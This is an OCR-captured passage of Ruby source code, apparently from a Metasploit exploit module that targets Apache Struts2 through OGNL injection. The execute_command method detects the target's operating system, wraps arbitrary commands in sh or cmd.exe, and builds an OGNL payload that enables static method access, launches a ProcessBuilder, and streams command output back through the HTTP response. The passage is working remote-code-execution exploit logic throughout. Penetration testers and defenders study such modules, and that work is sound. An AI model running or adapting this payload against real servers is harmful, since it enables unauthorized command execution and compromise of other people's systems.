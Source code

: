       def execute_command(cmd_input, opts={})
        # Semicolons appear to be a bad character in OGNL.  cmdstager doesn't understand that.
        if cmd_input.include? ';'
          print_warning("WARNING: Command contains bad characters: semicolons (;).")
        end

        begin
          properties = profile_target
          os = properties[:'os.name'].downcase
        rescue
          vprint_warning("Target profiling was unable to determine operating system")
          os = ''
          os = 'windows' if datastore['PAYLOAD'].downcase.include? 'win'
          os = 'linux'   if datastore['PAYLOAD'].downcase.include? 'linux'
          os = 'unix'    if datastore['PAYLOAD'].downcase.include? 'unix'
        end

        if (os.include? 'linux') || (os.include? 'nix')
          cmd = "{'sh','-c','#{cmd_input}'}"
        elsif os.include? 'win'
          cmd = "{'cmd.exe','/c','#{cmd_input}'}"
        else
          vprint_error("Failed to detect target OS.  Attempting to execute command directly")
          cmd = cmd_input
        end

        # The following OGNL will run arbitrary commands on Windows and Linux
        #   targets, as well as returning STDOUT and STDERR.  In my testing,
        #   on Struts2 in Tomcat 7.0.79, commands timed out after 18-19 seconds.

        vprint_status("Executing: #{cmd}")

        ognl =  ""
        ognl << %q|(#_memberAccess['allowStaticMethodAccess']=true).| if datastore['ENABLE_STATIC']
        ognl << %Q|(#p=new java.lang.ProcessBuilder(#{cmd})).|
        ognl << %q|(#p.redirectErrorStream(true)).|
        ognl << %q|(#process=#p.start()).|
        ognl << %q|(#r=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).|
        ognl << %q|(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#r)).|
        ognl << %q|(#r.flush())|

        r = send_struts_request(ognl)

        if r && r.code == 200
          print_good("Command executed:\n#{r.body}")
        elsif r
          if r.body.length == 0
            print_status("Payload sent, but no output provided from server.")
          elsif r.body.length > 0
            print_error("Failed to run command.  Response from server: #{r.to_s}")
          end
        end
      end
